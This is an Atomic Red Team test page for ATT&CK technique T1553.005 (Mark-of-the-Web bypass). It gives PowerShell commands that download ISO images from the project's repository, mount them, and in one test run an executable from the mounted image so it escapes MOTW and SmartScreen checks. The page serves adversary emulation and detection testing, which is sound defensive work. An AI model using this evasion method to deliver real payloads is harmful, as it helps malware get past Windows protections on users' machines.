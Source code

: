 # T1553.005 - Mark-of-the-Web Bypass
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1553/005)
<blockquote>Adversaries may abuse specific file formats to subvert Mark-of-the-Web (MOTW) controls. In Windows, when files are downloaded from the Internet, they are tagged with a hidden NTFS Alternate Data Stream (ADS) named <code>Zone.Identifier</code> with a specific value known as the MOTW.(Citation: Microsoft Zone.Identifier 2020) Files that are tagged with MOTW are protected and cannot perform certain actions. For example, starting in MS Office 10, if a MS Office file has the MOTW, it will open in Protected View. Executables tagged with the MOTW will be processed by Windows Defender SmartScreen that compares files with an allowlist of well-known executables. If the file in not known/trusted, SmartScreen will prevent the execution and warn the user not to run it.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)(Citation: Intezer Russian APT Dec 2020)

Adversaries may abuse container files such as compressed/archive (.arj, .gzip) and/or disk image (.iso, .vhd) file formats to deliver malicious payloads that may not be tagged with MOTW. Container files downloaded from the Internet will be marked with MOTW but the files within may not inherit the MOTW after the container files are extracted and/or mounted. MOTW is a NTFS feature and many container files do not support NTFS alternative data streams. After a container file is extracted and/or mounted, the files contained within them may be treated as local files on disk and run without protections.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mount ISO image](#atomic-test-1---mount-iso-image)

- [Atomic Test #2 - Mount an ISO image and run executable from the ISO](#atomic-test-2---mount-an-iso-image-and-run-executable-from-the-iso)


<br/>

## Atomic Test #1 - Mount ISO image

auto_generated_guid: 002cca30-4778-4891-878a-aaffcfa502fa

Mounts ISO image downloaded from internet to evade Mark-of-the-Web. Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, and mount the image. The provided sample ISO simply has a Reports shortcut file in it. Reference: https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;T1553.005.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
Mount-DiskImage -ImagePath "#{path_of_iso}"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: T1553.005.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/T1553.005.iso -OutFile "#{path_of_iso}"
```




<br/>
<br/>

## Atomic Test #2 - Mount an ISO image and run executable from the ISO

auto_generated_guid: 42f22b00-0242-4afc-a61b-0da05041f9cc

Mounts an ISO image downloaded from internet to evade Mark-of-the-Web and run hello.exe executable from the ISO. 
Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, mount the image, and run the executable from the ISO image that will open command prompt echoing "Hello, World!". 
ISO provided by:https://twitter.com/mattifestation/status/1398323532988399620 Reference:https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/,
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;FeelTheBurn.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
$keep = Mount-DiskImage -ImagePath "#{path_of_iso}" -StorageType ISO -Access ReadOnly
$driveLetter = ($keep | Get-Volume).DriveLetter
invoke-item "$($driveLetter):\hello.exe"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
Stop-process -name "hello" -Force -ErrorAction ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: FeelTheBurn.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/FeelTheBurn.iso -OutFile "#{path_of_iso}"
```




<br/>
